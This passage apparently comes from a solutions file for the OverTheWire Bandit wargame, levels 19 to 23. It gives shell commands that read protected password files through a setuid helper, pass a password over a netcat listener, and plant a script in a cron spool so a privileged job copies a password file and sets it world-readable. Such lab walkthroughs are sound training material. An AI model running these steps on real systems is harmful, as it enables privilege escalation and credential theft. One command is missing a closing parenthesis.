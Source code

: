 `./bandit20-do cat /etc/bandit_pass/bandit20`

##### 20

```bash
cat /etc/bandit_pass/bandit20 | nc -lp 33333 &
./suconnect 33333
```

##### 21

```bash
# get the script name being run
cat /etc/cron.d/cronjob_bandit22
# find the temp file being created in the script and cat it
cat $(grep -o "/tmp/.*" /usr/bin/cronjob_bandit22.sh | uniq)
```

##### 22

```bash
# get the script name being run
cat /etc/cron.d/cronjob_bandit23
# regenerate the name and cat it
cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1
```

##### 23

```bash
cronfile=/var/spool/bandit24/andrewflbarnes24
outdir=/tmp/andrewflbarnes24
outfile=${outdir}/password

# add a shell script which the cronjob /etc/cron.d/cronjob_bandit24 will execute
cat << EOF > ${cronfile}
# make the output directory
mkdir -p ${outdir}
# copy the password file for bandit 24
cp /etc/bandit_pass/bandit24 ${outfile}
# make sure the file is readable
chmod 777 ${outfile}
EOF

# make sure the cron job file is executable
chmod a+x ${cronfile}

# wait for the output file to be created
while ! ls ${outfile} 2>/dev/null
do
    sleep 1
    echo "$(date -R) Checking for existence of ${outfile}"
done

# get the password!
cat ${outfile}

```
